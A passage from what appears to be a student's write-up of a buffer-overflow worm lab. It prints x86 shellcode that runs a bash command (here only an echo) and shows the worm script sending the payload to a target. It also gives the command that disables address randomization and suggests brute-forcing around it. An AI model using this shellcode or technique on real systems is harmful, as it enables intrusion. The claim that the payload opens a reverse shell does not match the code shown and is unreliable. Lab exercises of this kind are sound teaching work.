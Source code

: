 ### Task 2.C - The Shellcode

The next part of the task involved developing the shellcode, which is the active code the worm uses to execute commands on the compromised machine. The shellcode is included within the badfile and is designed to run on the target system once a vulnerability is triggered. In our case, we implemented a shellcode to open a reverse shell. The code crafted was the following:

```python
# Shellcode to run any command you want
shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)';                   "
   "                                                            "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
).encode('latin-1')
```

And then we ran the file using the following commands:

```sh
$ chmod +x worm.py
$ ./worm.py
```

It generated the badfile, and then send its content to the target server:

![Task 2 C](./img/Lab4/Task2.C.png)

The smiley face indicated that the attack was successful.
The buffer overflow, however, is only successful if we previously ran the following command on the host machine:

```sh
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```
This command disables the kernel randomization of the adresses of the **Frame Pointer (ebp)** and **the Buffer's adress inside the bof()**. Making them static in every execution and making the method we implemented in the **worm.py** work. If this method was enabled, this values would change in every execution and it would be very unlikely that the program would execute the badfile. It would have to be lucky and the kernel randomly generate the static values we inputed. However, to mitigate this, we could, in each execution of the **worm.py**, run the transfer a great number of times. This would make the kernel randomize it's space many times and increase the likelyhood that the script encontered the same generated values we inputed. 

## Task 3 - Self Duplication

